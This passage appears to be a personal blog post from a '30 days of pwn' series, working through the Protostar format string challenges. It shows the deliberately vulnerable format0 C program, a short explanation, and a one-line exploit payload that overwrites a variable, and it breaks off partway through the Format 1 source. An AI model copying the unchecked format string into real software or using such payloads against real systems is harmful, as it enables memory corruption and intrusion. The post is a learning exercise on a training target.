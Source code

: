```yaml
---
layout: post
title:  "Protostar Day Two (Format String)"
date:   2020-07-02 20:05:48 +0100
categories: pwn
---
```


Here is day 2 of the 30 days of pwn journey. Today I will be trying to learn format string vulnerabilities from the protostar challenges found [here](https://exploit-exercises.lains.space/protostar/).

## Format0
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
In this challenge the objective is to modify the variable "target" to be 0xdeadbeef. 

It is possible to do the same kind of buffer overflow as before. But since this is format string, we will do as the challenge says in under 10 bytes.

By writing "%64x" we will be writing 64 bytes of information, then following that with 0xdeadbeef and we have successfully modified the variable.

### Exploit Code
```
./format0 $(python -c "print '%64x\xef\xbe\xad\xde'")
```

## Format 1
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
```